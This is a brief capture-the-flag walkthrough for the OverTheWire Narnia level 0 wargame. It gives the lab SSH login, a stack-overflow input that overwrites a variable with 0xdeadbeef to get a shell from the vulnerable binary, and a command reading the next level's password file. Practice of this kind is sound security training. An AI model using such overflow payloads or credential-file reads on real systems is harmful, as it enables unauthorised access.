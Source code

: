 # Narnia Level 0
Reference: [OverTheWire – Narnia 0](CTF_Solution_Writeup/overthewire.org_solution/Narnia/Materi/OverTheWire%20–%20Narnia%200.md)
```sh
ssh narnia0@narnia.labs.overthewire.org -p 2226
# Password: narnia0
cd /narnia/
(echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde";cat;)| ./narnia0
cat /etc/narnia_pass/narnia1
```
